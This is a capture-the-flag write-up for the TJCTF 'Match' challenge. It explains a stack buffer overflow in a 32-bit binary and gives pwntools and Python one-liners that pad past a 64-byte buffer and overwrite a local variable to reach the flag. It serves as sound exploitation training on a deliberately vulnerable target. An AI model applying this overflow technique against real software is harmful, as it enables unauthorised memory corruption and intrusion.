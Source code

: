 ```yaml
---
tags: [TJCTF]
title: Match
created: '2020-05-31T08:45:55.777Z'
modified: '2020-05-31T09:16:15.892Z'
---
```


# Match
## Solving
- `NX enabled`, stack is not executable! 
- The input function reads $16 * param2$ into $param1$, for the `Tinder Bio` input, the buffer is $64$ bytes big but $param2 = 8$, which means that it reads $16 * 8 = 128$ bytes and we have a BoF of $64$ bytes
- We get the flag when $local\_14 = 0xc0d3d00d$

We use a cyclic string to find the offset from our overflow to `local_14`, which is $52$
After the padding, we include `0xc0d3d00d` and that works!
## Commands
- `file match`:`match: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=20dc2329afce6884ca6bdae371f7af93bee637d5, with debug_info, not stripped`
- `checksec match`: `NX enabled`
## Exploit
### Find offset
```python
from pwn import *
cyclic(64)
cyclic_find(b'naaa')
``` 
```bash
python3 -c "print(
  'a\n' * 3 + # Get past first 3 inputs
  'b' * 64 + # Fill buffer of bio
  'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' # Cyclic to check where the padding needed to overwrite local_14
);" > input.txt
```
### Exploit
```bash
python -c "import pwn; print(
  'a\n' * 3 + # Get past first 3 inputs
  'b' * 64 + # Fill buffer of bio
  'c' * 52 + # Padding to local_14
  pwn.p32(0xc0d3d00d)
);" > input.txt
```
